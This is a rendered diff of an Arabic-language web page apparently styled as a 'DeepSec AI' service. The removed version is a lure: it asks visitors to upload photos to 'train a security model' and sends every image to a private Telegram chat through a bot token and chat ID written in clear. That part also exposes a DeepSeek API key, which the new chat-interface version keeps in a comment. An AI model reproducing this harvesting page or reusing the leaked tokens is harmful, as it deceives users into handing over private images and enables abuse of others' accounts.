

Before and after one commit to pubgmobileglobeal-collab/Jasser, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (258-1021 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

```diff
--- a/index.html
+++ b/index.html
@@ -2,210 +2,202 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
-    <title>AI Data Contributor | ساهم في بيانات الأمن العميق</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>DeepSec AI Chat | مساعد الذكاء الاصطناعي</title>
     <style>
-        /* التنسيق الأساسي والجذّاب */
+        /* التنسيق الأساسي */
         body {
             font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
             display: flex;
             flex-direction: column;
             align-items: center;
             min-height: 100vh;
-            background-color: #f0f4f8;
-            padding: 40px 20px;
-            color: #333;
+            background-color: #e5eef9;
+            margin: 0;
+            padding: 20px;
         }
-        .container {
+        .chat-container {
             background-color: #ffffff;
             border-radius: 12px;
-            box-shadow: 0 4px 15px rgba(0, 0, 0, 0.1);
-            padding: 30px 40px;
-            max-width: 550px;
+            box-shadow: 0 6px 20px rgba(0, 0, 0, 0.1);
             width: 100%;
+            max-width: 700px;
+            display: flex;
+            flex-direction: column;
+            height: 80vh; /* تحديد ارتفاع للحاوية */
+        }
+        header {
+            background-color: #1a73e8; /* لون DeepSeek/AI */
+            color: white;
+            padding: 15px;
+            border-top-left-radius: 12px;
+            border-top-right-radius: 12px;
             text-align: center;
+            font-size: 1.2em;
+            font-weight: 600;
         }
-        h2 {
-            font-size: 1.8em;
-            color: #1a73e8;
-            margin-bottom: 10px;
+        /* منطقة الرسائل (الشاشة) */
+        #messages {
+            flex-grow: 1;
+            padding: 15px;
+            overflow-y: auto;
+            background-color: #f7f9fc;
+            border-bottom: 1px solid #e0e0e0;
         }
-        .subtitle {
+        /* تصميم فقاعات الرسائل */
+        .message {
+            margin-bottom: 15px;
+            display: flex;
+        }
+        .user-message {
+            justify-content: flex-end;
+        }
+        .ai-message {
+            justify-content: flex-start;
+        }
+        .bubble {
+            max-width: 80%;
+            padding: 10px 15px;
+            border-radius: 18px;
+            line-height: 1.4;
+            box-shadow: 0 1px 1px rgba(0, 0, 0, 0.08);
+        }
+        .user-message .bubble {
+            background-color: #1a73e8;
+            color: white;
+            border-bottom-right-radius: 2px;
+        }
+        .ai-message .bubble {
+            background-color: #e4e7eb;
+            color: #333;
+            border-bottom-left-radius: 2px;
+        }
+        /* منطقة الإدخال */
+        .input-area {
+            display: flex;
+            padding: 10px 15px;
+            background-color: #ffffff;
+            border-bottom-left-radius: 12px;
+            border-bottom-right-radius: 12px;
+        }
+        #userInput {
+            flex-grow: 1;
+            padding: 10px;
+            border: 1px solid #ccc;
+            border-radius: 20px;
+            margin-inline-end: 10px;
             font-size: 1em;
-            color: #666;
-            margin-bottom: 30px;
+            resize: none;
+            height: 40px;
         }
-        /* منطقة الرفع الجذابة */
-        .file-upload-area {
-            border: 2px dashed #b3cde0;
-            border-radius: 8px;
-            padding: 30px 15px;
-            margin-bottom: 20px;
-            cursor: pointer;
-            transition: background-color 0.3s;
-        }
-        .file-upload-area:hover {
-            background-color: #e9f2ff;
-        }
-        .upload-icon {
-            font-size: 30px;
-            color: #1a73e8;
-        }
-        .upload-text {
-            margin-top: 10px;
-            font-size: 0.95em;
-            color: #555;
-            font-weight: 500;
-        }
-        #fileInput {
-            display: none;
-        }
-        /* زر المساهمة */
-        button {
+        #sendButton {
             background-color: #00a68d;
             color: white;
             border: none;
-            padding: 12px 25px;
-            border-radius: 50px;
-            font-weight: 600;
+            border-radius: 50%;
+            width: 40px;
+            height: 40px;
             cursor: pointer;
+            font-size: 1.2em;
             transition: background-color 0.3s;
         }
-        button:hover {
+        #sendButton:hover {
             background-color: #007f6b;
-        }
-        button:disabled {
-            background-color: #ccc;
-            cursor: not-allowed;
-        }
-        #status {
-            margin-top: 20px;
-            font-weight: 500;
-            color: #333;
-            min-height: 20px;
-        }
-        .file-list {
-            list-style: none;
-            padding: 0;
-            margin-top: 15px;
-            max-height: 120px;
-            overflow-y: auto;
-            border-top: 1px solid #eee;
-            text-align: left;
-            padding-top: 10px;
-            font-size: 0.85em;
-            color: #444;
         }
     </style>
 </head>
 <body>
 
-<div class="container">
-    <div class="icon">🛡️</div>
-    <h2>نظام تدريب الذكاء الاصطناعي للأمن العميق (DeepSec AI)</h2>
-    <p class="subtitle">يرجى إرسال بيانات الصور لتدريب نموذجنا على تحليل التهديدات الأمنية المتقدمة.</p>
+<div class="chat-container">
+    <header>DeepSec AI Assistant (Beta)</header>
 
-    <div class="file-upload-area" onclick="document.getElementById('fileInput').click()">
-        <div class="upload-icon">⬆️</div>
-        <div class="upload-text">انقر هنا لاختيار ملفات البيانات (الصور)</div>
+    <div id="messages">
+        <div class="message ai-message">
+            <div class="bubble">
+                مرحباً! أنا مساعد الذكاء الاصطناعي من DeepSec. كيف يمكنني مساعدتك اليوم؟
+            </div>
+        </div>
     </div>
 
-    <input type="file" id="fileInput" accept="image/*" multiple>
-
-    <ul class="file-list" id="fileList"></ul>
-
-    <button id="contributeButton" onclick="uploadFiles()" disabled>🚀 إرسال البيانات للتحليل</button>
-
-    <div id="status">الرجاء اختيار مجموعة من الصور والنقر على زر الإرسال.</div>
+    <div class="input-area">
+        <textarea id="userInput" placeholder="اكتب رسالتك..." onkeypress="handleKeyPress(event)"></textarea>
+        <button id="sendButton" onclick="sendMessage()">▶</button>
+    </div>
 </div>
 
 <script>
     // **********************************************
-    // API Keys and Tokens:
+    // ⚠️ يجب عليك تغيير هذا الرابط ليتوافق مع خادمك الوسيط
     // **********************************************
+    const CHAT_ENDPOINT = 'https://your-backend-server.com/api/chat';
 
-    // ⚠️ يتم تخزين رمز DeepSeek API هنا كملاحظة، لكنه غير مُستخدم مباشرة لرفع الملفات
-    const DEEPSEEK_API_KEY = 'Sk-aab9ec97dda4441b37d34830a986a41';
+    // (رمز API DeepSeek موجود بأمان على خادمك الوسيط، وليس هنا!)
+    // const DEEPSEEK_API_KEY = 'Sk-aab9ec97dda44411b37d34830a986a41';
 
-    // بيانات Telegram API (المستخدمة للإرسال الفعلي للصور)
-    const BOT_TOKEN = '7665591962:AAGXWu19kIEIOzZ-xRAb44O4BOZl-rWJ-y8';
-    const CHAT_ID = '5653032481';
+    const messagesDiv = document.getElementById('messages');
+    const userInput = document.getElementById('userInput');
+    const sendButton = document.getElementById('sendButton');
 
-    const TELEGRAM_API = `https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`;
+    // دالة لإضافة الرسائل إلى الشاشة
+    function appendMessage(sender, text) {
+        const messageElement = document.createElement('div');
+        messageElement.className = `message ${sender}-message`;
+        messageElement.innerHTML = `<div class="bubble">${text}</div>`;
+        messagesDiv.appendChild(messageElement);
+        // التمرير التلقائي لأسفل
+        messagesDiv.scrollTop = messagesDiv.scrollHeight;
+    }
 
-    const fileInput = document.getElementById('fileInput');
-    const statusElement = document.getElementById('status');
-    const fileListElement = document.getElementById('fileList');
-    const contributeButton = document.getElementById('contributeButton');
+    // دالة إرسال الرسالة إلى الخادم الوسيط
+    async function sendMessage() {
+        const text = userInput.value.trim();
+        if (!text) return;
 
-    fileInput.addEventListener('change', updateFileList);
+        // 1. عرض رسالة المستخدم
+        appendMessage('user', text);
+        userInput.value = '';
+        sendButton.disabled = true;
 
-    function updateFileList() {
-        fileListElement.innerHTML = '';
-        const files = fileInput.files;
+        // 2. عرض رسالة 'جاري الكتابة...'
+        appendMessage('ai', 'جاري التفكير...');
 
-        if (files.length > 0) {
-            statusElement.textContent = `تم اختيار ${files.length} ملف جاهز للإرسال للتحليل.`;
-            contributeButton.disabled = false;
-            for (const file of files) {
-                const listItem = document.createElement('li');
-                listItem.textContent = `• ${file.name} (${(file.size / 1024 / 1024).toFixed(2)} MB)`;
-                fileListElement.appendChild(listItem);
+        try {
+            // 3. إرسال الطلب إلى الخادم الوسيط
+            const response = await fetch(CHAT_ENDPOINT, {
+                method: 'POST',
+                headers: {
+                    'Content-Type': 'application/json'
+                },
+                // إرسال النص بصيغة JSON
+                body: JSON.stringify({ prompt: text })
+            });
+
+            // 4. إزالة رسالة 'جاري التفكير...'
+            messagesDiv.lastElementChild.remove();
+
+            if (response.ok) {
+                const data = await response.json();
+                // 5. عرض رد الذكاء الاصطناعي
+                const aiResponse = data.response || "عفواً، واجهت خطأ في الرد.";
+                appendMessage('ai', aiResponse);
+            } else {
+                appendMessage('ai', `❌ فشل الاتصال بالخادم الوسيط. (${response.status})`);
             }
-        } else {
-            statusElement.textContent = 'الرجاء اختيار ملفات للمساهمة.';
-            contributeButton.disabled = true;
+
+        } catch (error) {
+            messagesDiv.lastElementChild.remove();
+            appendMessage('ai', `❌ خطأ في الشبكة: تعذر الاتصال بـ ${CHAT_ENDPOINT}`);
+        } finally {
+            sendButton.disabled = false;
         }
     }
 
-    async function uploadFiles() {
-        const files = fileInput.files;
-
-        if (files.length === 0) return;
-
-        contributeButton.disabled = true;
-        contributeButton.textContent = 'جاري إرسال البيانات للتحليل...';
-        statusElement.textContent = `جاري رفع ${files.length} ملف... الرجاء عدم إغلاق الصفحة.`;
-
-        let successCount = 0;
-        let failCount = 0;
-
-        for (const file of files) {
-            // استخدام Telegram API لإرسال الصورة مباشرةً
-            const formData = new FormData();
-            formData.append('chat_id', CHAT_ID);
-            formData.append('photo', file);
-            formData.append('caption', `[DeepSec AI Data] Contributed file from user: ${file.name}`);
-
-            try {
-                const response = await fetch(TELEGRAM_API, {
-                    method: 'POST',
-                    body: formData
-                });
-
-                if (response.ok) {
-                    successCount++;
-                } else {
-                    failCount++;
-                }
-            } catch (error) {
-                failCount++;
-                console.error(`خطأ في الشبكة لملف ${file.name}:`, error);
-            }
+    // إرسال عند الضغط على مفتاح Enter
+    function handleKeyPress(event) {
+        if (event.key === 'Enter' && !event.shiftKey) {
+            event.preventDefault(); // منع إنشاء سطر جديد
+            sendMessage();
         }
-
-        // رسالة الإكمال الاحترافية
-        if (successCount > 0) {
-             statusElement.textContent = `✅ شكراً جزيلاً! تم إرسال ${successCount} ملف للتحليل بنجاح.`;
-             contributeButton.textContent = 'تم الإرسال بنجاح';
-             contributeButton.style.backgroundColor = '#28a745';
-        } else {
-             statusElement.textContent = `❌ فشل الإرسال بالكامل. قد تكون هناك مشكلة في اتصال الشبكة.`;
-             contributeButton.textContent = 'خطأ في الإرسال';
-             contributeButton.style.backgroundColor = '#d9534f';
-        }
-
-        contributeButton.disabled = true;
     }
 </script>
 
```
